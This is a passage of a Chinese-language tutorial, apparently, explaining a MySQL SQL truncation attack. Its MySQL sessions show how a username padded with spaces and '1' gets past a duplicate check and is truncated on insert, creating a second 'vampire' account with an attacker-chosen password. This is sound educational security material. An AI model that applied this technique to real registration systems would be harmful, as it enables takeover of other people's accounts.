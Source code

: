 接着创建一个数据表users，其包含username和password列，并且字段的最大长度限制为25个字符。然后，我将向username字段插入“vampire”，向password字段插入“my_password”。

```
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
Query OK, 0 rows affected (0.09 sec)
mysql> INSERT INTO users
    -> VALUES('vampire', 'my_password');
Query OK, 1 row affected (0.11 sec)
mysql> SELECT * FROM users;
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)

```

为了展示尾部空白字符的修剪情况，我们可以键入下列命令：

```
mysql> SELECT * FROM users
    -> WHERE username='vampire       ';
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)

```

现在我们假设一个存在漏洞的网站使用了前面提到的PHP代码来处理用户的注册及登录过程。为了侵入任意用户的帐户（在本例中为“vampire”），只需要使用用户名“vampire[许多空白符]1”和一个随机密码进行注册即可。对于选择的用户名，前25个字符应该只包含vampire和空白字符，这样做将有助于绕过检查特定用户名是否已存在的查询。

```
mysql> SELECT * FROM users
    -> WHERE username='vampire                   1';
Empty set (0.00 sec)

```

需要注意的是，在执行SELECT查询语句时，SQL是不会将字符串缩短为25个字符的。因此，这里将使用完整的字符串进行搜索，所以不会找到匹配的结果。接下来，当执行INSERT查询语句时，它只会插入前25个字符。

```
mysql>   INSERT INTO users(username, password)
    -> VALUES ('vampire                   1', 'random_pass');
Query OK, 1 row affected, 1 warning (0.05 sec)
mysql> SELECT * FROM users
    -> WHERE username='vampire';
+---------------------------+-------------+
| username                  | password    |
+---------------------------+-------------+
| vampire                   | my_password |
| vampire                   | random_pass |
+---------------------------+-------------+
2 rows in set (0.00 sec)

```
